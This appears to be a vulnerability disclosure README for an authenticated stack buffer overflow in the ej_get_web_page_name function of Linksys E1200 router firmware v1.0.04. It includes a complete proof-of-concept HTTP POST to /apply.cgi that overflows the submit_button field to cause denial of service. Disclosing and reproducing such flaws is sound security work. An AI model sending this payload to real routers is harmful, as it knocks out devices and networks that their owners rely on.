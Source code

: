 # Linksys E1200 has a buffer overflow vulnerability

## overview

- type: buffer overflow vulnerability 

- supplier: Linksys (https://www.linksys.com/) 

- product: Linksys E1200 https://www.linksys.com/gb/wi-fi-router-n300-monitor/E1200-UK.html

- firmware download: https://downloads.linksys.com/downloads/firmware/FW_E1200_v1.0.04.001_US_20120307.bin

- affect version:  Linksys E1200 v1.0.04 

## Description

### 1. Vulnerability Details

the function `ej_get_web_page_name` contains stack overflow vulnerability. 

![image-20220816161007409](readme.assets/image-20220816161007409.png)

but this vulnerability must be authenticated.  This vulnerability can cause dos(deny of service)

### 2. Recurring loopholes and POC

To reproduce the vulnerability, the following steps can be followed: 

Start frimware through QEMU system or other methods (real device) 

Attack with the following POC attacks( **you need to replace session_id**)

![image-20220816231712190](readme.assets/image-20220816231712190.png)

```txt
POST /apply.cgi;session_id=65fadc4eef72718d160532873503b59e HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1055
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/index.asp;session_id=65fadc4eef72718d160532873503b59e
Upgrade-Insecure-Requests: 1

pptp_dhcp=0&submit_button=indexaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&change_action=&submit_type=&gui_action=Apply&now_proto=dhcp&daylight_time=1&switch_mode=0&lan_ipaddr=4&wait_time=5&dhcp_start=100&auto_return2=1&need_reboot=0&dhcp_check=&lan_netmask_0=&lan_netmask_1=&lan_netmask_2=&lan_netmask_3=&timer_interval=30&detect_lang=EN&wan_proto=dhcp&wan_hostname=&wan_domain=&mtu_enable=0&lan_ipaddr_0=192&lan_ipaddr_1=168&lan_ipaddr_2=1&lan_ipaddr_3=1&lan_netmask=255.255.255.0&machine_name=Cisco12345&lan_proto=dhcp&dhcp_start_tmp=100&dhcp_num=50&dhcp_lease=0&wan_dns=4&wan_dns0_0=0&wan_dns0_1=0&wan_dns0_2=0&wan_dns0_3=0&wan_dns1_0=0&wan_dns1_1=0&wan_dns1_2=0&wan_dns1_3=0&wan_dns2_0=0&wan_dns2_1=0&wan_dns2_2=0&wan_dns2_3=0&wan_wins=4&wan_wins_0=0&wan_wins_1=0&wan_wins_2=0&wan_wins_3=0&time_zone=-08+1+1&_daylight_time=1
```

